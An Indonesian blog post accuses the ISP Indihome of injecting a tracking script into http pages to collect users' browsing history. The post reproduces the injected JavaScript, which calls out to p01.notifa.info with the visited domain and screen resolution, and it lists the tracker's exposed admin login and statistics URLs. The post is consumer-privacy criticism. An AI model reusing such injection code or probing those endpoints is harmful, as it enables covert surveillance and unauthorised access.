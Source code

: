 ```yaml
---
published: true
---
```

## Derita Pelanggan Indihome, Sudah Bayar Datanya Malah Dicuri

Indihome adalah salah satu penyedia layanan internet terbesar di Indonesia. Akhir 2019 setidaknya mereka memiliki 7 juta pelanggan yang tersebar di seluruh Indonesia. Tahun 2020 ini mereka menargetkan memiliki 8,3 juta pelanggan. Total pendapatan perusahaan BUMN ini juga fantastis, setiap tahunnya 18 Triliun. Dibalik semua pencapaian itu, Indihome selama ini dikenal sebagai penyedia layanan internet dengan kualitas layanan yang paling banyak mendapatkan keluhan. Keluhan itu sendiri sering kita lihat di berbagai media sosial yang dibagikan oleh para pelanggan mereka.

Saya sendiri juga menggunakan Indihome untuk internet di rumah, karena tak ada pilihan lain. Saat ini rumah saya hanya terjangkau layanan milik Indihome. Setelah menjadi pelanggan Indihome sekian tahun, saya merasakan berbagai macam gangguan yang saya dapatkan selama berlangganan. Setidaknya ketika tulisan ini ditulis, saya akan menjabarkan gangguan yang saya dapatkan yang menurut saya adalah perbuatan yang melanggar hukum. /

### Tracker Untuk Mencuri Browsing History Pengguna

Saya menggunakan kata "mencuri" karena mengambil sesuatu tanpa izin sangat tepat disebut mencuri. Selain ini dilakukan secara diam-diam, kebanyakan orang awam pasti tidak menyadari hal ini. Jika kamu berlangganan Indihome di rumah, ketika kamu mengunjungi sebuah website yang belum menggunakan SSL atau tepatnya masih menggunakan http belum https, Indihome akan mengambil browsing history milik kamu ketika kamu mengunjungi website tersebut. Penjelasannya dengan contoh kasus sebagai berikut :

Saya sedang mencari sebuah tutorial di Google menggunakan kata kunci "penyebab bulu kucing kusam", setelah itu google menampilkan artikel berikut ini http://www.petnyaku.com/health/dari-kondisi-bulu-bisa-diketahui-kucing-memiliki-masalah-kesehatan/, ketika saya mengunjungi website tersebut, karena belum menggunakan SSL (masih http) Indihome kemudian bisa menyisipkan sebuah script yang berguna untuk mencuri browsing history milik kita. Ketika kamu view-source website yang kamu kunjungi tersebut, kita akan menemukan script seperti berikut ini di bagian paling bawah :

```javascript
<script type="text/javascript">if (self==top) {function netbro_cache_analytics(fn, callback) {setTimeout(function() {fn();callback();}, 0);}function sync(fn) {fn();}function requestCfs(){var idc_glo_url = (location.protocol=="https:" ? "https://" : "http://");var idc_glo_r = Math.floor(Math.random()*99999999999);var url = idc_glo_url+ "p01.notifa.info/3fsmd3/request" + "?id=1" + "&enc=9UwkxLgY9" + "&params=" + "4TtHaUQnUEiP6K%2fc5C582JQuX3gzRncX4P8RMEi6KILNdTu4aXhNvLHVzbE%2fcmJIngqm1SZDgEuphLBm%2f%2f4J1tqyuJYFIkMo%2fASaCza7wmTnLDVhjapRu7oWDCCMdyke7%2bhuxVZH51%2fuUDPDOXYbO3OvmkgHxYCfjjwMLv7OAk2mniAERkIHP0HfTLqo6QXe3pw52b5QLmRu4fOIgzvm88MQ6IJOBTOIPNiJCOi6Chsi9XyFgUfHfgBC17rl8mNyhSAjcshFZFnBd%2ba9uZTBebbZLfKrTdu8upidxRX7Aa3SKTNOaaXkLXkbfgIcB1BZe1i%2f35C0ffGwbfZQzmIjYUmbKvNvzknUAoNu40XCBZM9wBW721NIq4fB0g%2fcyvrUfF3XKmEhpgjeDdA1BzLdrOJL5NFPM%2bsCXDRxhkd4NSkSlNY7H%2bE9qQGWSapNJb3lYnA%2f5RDQqkvOil6xgADRcXjy2bSgJgLgfXC3mH9QMnKPPXBB%2b98E%2bFrOLIh1WtFm2vLLLq6zXs4lMXN%2bi45r%2bTzjQMoMxW5kHIYK%2f8jAJI%2fn%2fx7JgQu56qEc0fTuMy%2bAFXUfdQhfAznNQmIkZE6h9G8Jzze%2fGKPccenLrp3aPzilW%2bjvA%2bb6YWYD4q%2bVNk2fOlg6GYynzBrTpzexxI6BXqmN18k4ZShMLXrN85aeqKg%3d" + "&idc_r="+idc_glo_r + "&domain="+document.domain + "&sw="+screen.width+"&sh="+screen.height;var bsa = document.createElement('script');bsa.type = 'text/javascript';bsa.async = true;bsa.src = url;(document.getElementsByTagName('head')[0]||document.getElementsByTagName('body')[0]).appendChild(bsa);}netbro_cache_analytics(requestCfs, function(){});};</script>
```
Script ini berguna untuk mengirimkan sebuah request ke server milik Indihome. Contoh request nya adalah sebagai berikut :
![indihome1.png]({{site.baseurl}}/images/indigo/indihome1.png)
Jika dilihat dalam versi penuhnya, maka request tersebut akan terlihat seperti ini :

```javascript
http://p01.notifa.info/3fsmd3/request?id=1&enc=9UwkxLgY9&params=4TtHaUQnUEiP6K%2fc5C582JQuX3gzRncX4P8RMEi6KIKtVIeBXVsA20nWKYcnall52ezULp%2fmcTfNfFan0cuYiikcLCpeACUzm1BNnnttoND4zO0lWiBKmHrmr%2bi0d90xJX8mWy7ZHbcj%2fnUElz3UxVDGSMsk9D8IFPr9ZDr6yQpVB2XSlCgjPMNQqcsjqDmJdgB5HOfuQqM4QVdagHG06ugiNYOHvvZcrSqDU8hd%2bXAoWDzREWfoBmvPR8TGobmg2mbp3lMaVRLp8jIL4%2fRQZGXSBrQ9CvV4%2f2IHJYWvdhQC3l%2fzv%2fvT5Aq8kWuJ4LweWoL0DYhLQJ1Rwm5J8J%2btwOOdma5pOSegNhOqAvJjvR5YJ0aaAgNKadpheMvCbF2yLm%2fn2iWdduS7%2bimKg%2bS5CGCTi3Kpo9Ng24YpdQdyN%2fzLG1ipRo38TJ8ongnstvlpR9Kj9hqpSEqwka%2fxjR%2btvRWQjT19zs5MsP3xXji9qFgAIxM6CBoQbxS21AYbuhVE3PJ8TpV53ccq6LpRa%2f5d%2bRgKoCygtm%2bH5pEvgrCgPtElofFWiLUs3b6NUtmI94nuv%2fAjnfYGtj837edhisK0daWSvke8IjzwChxw2%2bJETgU8e5qqlLCRaHOuJcb1y%2fni8v%2bUdts%2fbjPfa0xlCPa2%2bm%2bKfkojGb9dFiiXan3VK3w%3d&idc_r=61826754674&domain=www.petnyaku.com&sw=2304&sh=1296
```

Beberapa parameter diatas berguna untuk mengambil browsing history dan juga resolusi layar perangkat yang kamu gunakan. 

-Website yang kamu kunjungi

```javascript
domain=www.petnyaku.com
```

-Resolusi layar

```javascript
sw=2304&sh=1296
```

Jadi setiap kali kamu mengunjungi sebuah website yang belum menggunakan SSL (masih http) maka Indihome dengan leluasa akan mengambil data website yang kamu kunjungi tersebut. 

### Dibalik p01.notifa.info

Karena saya merasa cukup terganggu da juga penasaran, saya kemudian mencari tau apa yang ada dibalik website tracker milik Indihome ini hanya bermodalkan Google. Kemudian saya mendapatkan 2 link berikut :
![indihome2.png]({{site.baseurl}}/images/indigo/indihome2.png)

Ketika saya mengakses http://p01.notifa.info/3fsmd3/wsadmin/auth/login, halaman tersebut merupakan tempat untuk login internal yang mungkin digunakan content management, tampilannya adalah sebagai berikut :
![indihome3.png]({{site.baseurl}}/images/indigo/indihome3.png)

Lalu link berikutnya adalah http://p01.notifa.info/info/apc/ :
Halaman ini lebih menarik karena berisi statistik dan juga struktur kode yang digunakan untuk website tracker ini. Pada tanggal 14 September 2020 03:00 WIB, pada tab status total hits mencapai angka 26,681,371,055 (26,6 miliar).
